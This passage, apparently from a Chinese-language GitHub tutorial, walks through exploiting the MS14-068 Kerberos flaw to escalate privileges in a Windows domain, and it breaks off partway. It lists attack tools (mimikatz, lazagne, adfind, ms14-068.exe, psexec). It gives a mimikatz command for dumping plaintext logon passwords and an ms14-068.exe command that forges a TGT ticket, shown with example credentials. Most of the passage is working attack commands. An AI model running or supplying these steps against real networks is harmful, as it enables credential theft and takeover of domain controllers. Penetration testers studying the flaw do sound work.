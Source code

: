 - lazagne（获取windows hash的工具）
- mimikatz（获取windows hash的工具）
- adfind（域内扫描工具）
- [ms14-068.exe](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068)（ms14-068漏洞利用工具）
- psexec.exe（域内提权工具）

#### 1. 获取当前域用户的sid

漏洞利用需要获取到一个普通的域账户，包括账户名，密码或者hash。

使用lazagne或者mimikatz可以抓取到域账户信息，需要将工具上传到目标主机上。

通过域账户执行命令 

```shell
C:\Users\User>whoami /user

用户信息
----------------

用户名              SID
=================== =============================================
houkc\user S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx
```

可以获取到当前域账户的sid。

#### 2. 生成TGT票据

使用 adfind获取域控的主机名字。

使用mimikatz可以获取主机明文密码：

```shell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

使用以下命令攻击域内主机：

```shell
ms14-068.exe -u [用户名]@[域名] -p [密码] -s [sid] -d [域控主机名].[域名]
```

注意-d后面只能跟正确的域控主机名.域名，而不能用ip

```shell
ms14-068.exe -u temp@houkc.com -p 123456 -s S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx -d AdServer.houkc.com
```

执行完成会生成票据文件`TGT_temp@houkc.com.ccache`

#### 3. 导入票据

可以先命令行输入以下命令来清空当前票据：

```shell
klist purge
```
